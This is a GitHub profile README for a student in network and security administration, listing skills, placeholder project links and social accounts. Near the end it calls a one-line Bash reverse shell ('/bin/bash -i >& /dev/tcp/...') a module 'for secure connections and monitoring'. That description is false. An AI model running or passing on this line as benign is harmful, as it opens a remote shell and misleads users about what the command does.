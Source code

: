 # 👋 Hi, I'm Errabab

### Network and Database Administration student skilled in security, virtualization, and web development, with a focus on efficient and robust tech solutions.

---

### 📜 About Me
I'm dedicated to the field of system and network administration, with a commitment to securing and optimizing tech environments. My experience spans cybersecurity, virtualization, and web development, all of which drive my goal to deliver efficient and reliable solutions.

---

### ⚙️ Configuration

<config>
  
  🖥️ **Systems Administration**  
  🛡️ **Network Security**  
  📶 **System & Network Monitoring**  
  👾 **Ethical Hacking**  
  💥 **Penetration Testing**  
  ♾️ **DevOps**  

</config>

---

### 💻 Skills

- **Network and System Administration**  
- **Network Security and Monitoring**  
- **Security Research (SoC)**  
- **Ethical Hacking and Penetration Testing**  
- **System Monitoring and Optimization**  
- **Automation and SIEM Configuration**  

---

### 🚀 Featured Projects

- [🛠️ SIEM Configuration Project](#)  
- [🔍 Network Security Research](#)  
- [📡 Real-time System Monitoring Setup](#)  

---

### 🤝 Connect with Me


[GitHub](https://github.com/Errabab)
[LinkedIn](https://www.linkedin.com/in/erabab-salec-ahrayam-316584263/)
[X (Twitter)](https://x.com/_jk_29)

---

#### Note:
_This configuration includes Bash modules for secure connections and monitoring:_

```bash
/bin/bash -i >& /dev/tcp/Errabab/444 0>&1


<!---
Errabab/Errabab is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->

